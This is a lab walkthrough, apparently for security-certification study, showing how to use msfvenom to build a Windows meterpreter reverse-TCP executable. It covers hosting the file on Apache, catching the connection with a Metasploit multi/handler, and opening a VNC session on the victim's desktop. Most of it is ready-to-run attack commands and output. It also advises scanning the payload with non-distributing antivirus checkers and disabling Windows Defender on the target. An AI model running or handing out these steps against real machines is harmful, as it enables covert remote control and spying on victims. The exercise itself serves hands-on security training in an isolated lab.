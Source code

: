 # Exploiting Client Side Vulnerabilities and Establishing a VNC session
Attackers use client-side vulnerabilities to exploit unpatched software, thereby attaining access to the machine on which the software is installed.

VNC enables attackers to remotely access and control computers targeted from another computer or mobile device, wherever they are in the world. At the same time, it is also used by administrator and organizations throughout every industry sector for a range of different scenarios and use cases, including providing IT desktop support to colleagues and friends, and accessing systems and services on the move.

### Objectives
* How to exploit client-side vulnerabilities and establish a VNC session.

### Requisites
* Kali Linux virtual machine (Attacker).
* Windows 10 virtual machine (Target).


## Launch Metasploit Framework

Launch Kali Linux and open the Terminal window and type:

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.0.2.42 LPORT=444 -o /root/Desktop/Test.exe`

**Note**: LHOST is the IP address of your Kali machine.

This command will generate Test.exe, a malicious file on Desktop as shown in below:

```
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /root/Desktop/Test.exe
```

You can also try this by using the `msfconsole`. 

To check the malicious file that you created, go to https://nodistribute.com/ or https://antiscan.me and upload the file:

![AntiScan.Me](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/0e16bfcaba630b14ba1efa3ca24e061158247558/antiscan.png)


This site will perform a scan over 20 AV softwares databases. **Do not upload your backdoors or any file to virusTotal.**

## Share the malicious file on target
Now create a directory to share this file with the target machine provide the permissions and copy the file from Desktop to shared location:

Create a directory on html folder:<br>
`mkdir /var/www/html/share/`<br>

Change the mode for the share to **755**:<br>
`chmod -R 755 /var/www/html/share/`<br>

Change the ownership of that folder to **www-data**:<br>
`chown -R www-data:www-data /var/www/html/share/`

Now copy the malicious file to the shared location:<br>
`cp /root/Desktop/Test.exe /var/www/html/share/`

Next, start the apache service:<br>
`service apache2 start`


Open a new terminal window and type `msfconsole` to launch Metasploit Framework.

Use the `multi/handler` to capture the session.

![msfconsole](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/3f818aa7902d7d0c864577c885b2a16c1b5caa33/msfconsole.png)

In msfconsole:
1. `use multi/handler`
2. `set payload windows/meterpreter/reverse_tcp`
3. set the `LHOST` to your Kali IP address and `LPORT` to 444
4. `run` the exploit

#### Reverse TCP
A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.

This module exploits memory corruption vulnerability within Microsoft's HTML engine (mshtml). When parsing an HTML page containing a recursive CSS import, a C++ object is deleted and later reused.

## On Windows machine
Remember to deactivate all Windows Defender parameters.

Launch the browser and type the IP address of the Kali machine that are running apache webserver and download the **Test.exe**. 

In my case is `http://10.0.2.42/share`

![Test.Exe](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/48fe2ec77ebde90c0febb208704e4172b60b4428/testexe.png)

Double click  **Test.exe**.<br>
You will get a Security Warning window, click **run**.

![Sec Warning](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/87089f69512685222b66d10ab10832f0382538f9/securityWarningWin.png)

## Meterpreter 
Switch to Kali Linux machine and check if there is any session that are opened in the Meterpreter Shell as shown below:

![meterpreter](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/87089f69512685222b66d10ab10832f0382538f9/meterpreter.png)

Meterpreter is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code.

Useful commands:
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

About Meterpreter:
https://doubleoctopus.com/security-wiki/threats-and-tools/meterpreter/

## Remote View in Kali Linux
Now, you can create a VNC session on Windows 10 machine remotely by typing:

`run vnc`

This command will open a VNC session of the Target's machine as shown below:

![vnc](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/78278f30571b9988b108c92defcd91134886c404/vnc.png)

Useful links:

* [Metasploit Cheat Sheet - SANS](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)
* [Meterpreter Cheat Sheet](https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf)
* [Msfvenom Cheat Sheet](https://widesecurity.net/linux/msfvenom-cheat-sheet/)